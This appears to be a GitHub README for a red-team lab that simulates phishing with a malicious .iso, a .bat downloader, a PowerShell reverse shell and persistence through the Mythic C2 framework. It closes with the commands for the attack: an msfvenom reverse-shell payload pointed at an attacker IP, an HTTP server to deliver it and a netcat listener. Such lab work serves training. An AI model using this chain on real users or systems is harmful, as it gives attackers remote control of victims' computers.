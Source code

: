 # 🎯 Phishing and C2 Control Lab

This lab simulates a real-world phishing attack delivering a malicious `.iso` file, which ultimately leads to reverse shell access and persistence via a C2 (Command & Control) framework — **Mythic**. It covers Red Team tactics from payload creation to post-exploitation persistence.

---

## 🧰 Tools Used

- 🐧 Kali Linux
- 🪟 Windows 10 (victim)
- 🛠️ `msfvenom`, `netcat`, `python3 -m http.server`
- 🧱 Mythic C2 Framework
- 📄 Windows `.bat`, `.iso`, and PowerShell scripting

---

## 🧪 Lab Stages

### 🔹 Part 1: Pre-Attack Setup

- Crafted phishing email template
- Generated PowerShell reverse shell using `msfvenom`
- Created `.bat` downloader and zipped with decoy `.txt`
- Created `.iso` file using Windows ADK `oscdimg`

### 🔹 Part 2: Phishing Execution

- Victim receives phishing email with `.iso` attachment
- Upon mounting and executing, payload is downloaded
- Reverse shell connects back to attacker (Kali VM)

### 🔹 Part 3: Mythic C2 Deployment

- Installed and configured Mythic C2 on Kali
- Created a Windows payload using Apollo agent
- Delivered agent via reverse shell
- Achieved persistent access using startup folder drop

---

## ⚙️ Key Payload Commands

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.0.103 lport=1337 > reverse_shell.txt
python3 -m http.server
nc -lvnp 1337

